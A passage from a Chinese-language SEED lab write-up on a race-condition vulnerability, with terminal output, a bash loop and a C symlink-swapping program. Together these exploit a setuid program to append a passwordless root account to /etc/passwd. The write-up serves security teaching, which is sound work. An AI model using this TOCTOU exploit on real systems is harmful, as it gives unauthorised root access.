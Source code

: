 ```c
    } else {
        printf("No permission \n");
    }

    return 0;
}

```

编译上面程序为root所有的4755权限的可执行程序

```shell
[11/01/22]seed@VM:~/.../Labsetup$ ln -sf /dev/null /tmp/XYZ
[11/01/22]seed@VM:~/.../Labsetup$ a.out 
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
[11/01/22]seed@VM:~/.../Labsetup$ ln -sf /etc/passwd /tmp/XYZ
```

攻击成功，可以su test无密码登录

## Task 2.B: The Real Attack

注释掉上面程序的sleep语句，在一个更加贴合正常情境进行攻击

有三个程序：

- vulp。被注释掉sleep的setuid程序，也是我们攻击的对象
- attack。不停的更改软链接的指向
- target_process.sh。不停的执行vulp程序，直到vulp成功被攻击，也即是/etc/passwd文件中被追加一行`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`

```shell
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  
do
   echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp 
   new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

```c
#include<unistd.h> 
int main(void){ 
	while(1){ 
		unlink("/tmp/XYZ"); 
		symlink("/dev/null", "/tmp/XYZ"); 
		usleep(100); 
		unlink("/tmp/XYZ"); 
		symlink("/etc/passwd", "/tmp/XYZ"); 
		usleep(100); 
	}
	return 0; 
}

```
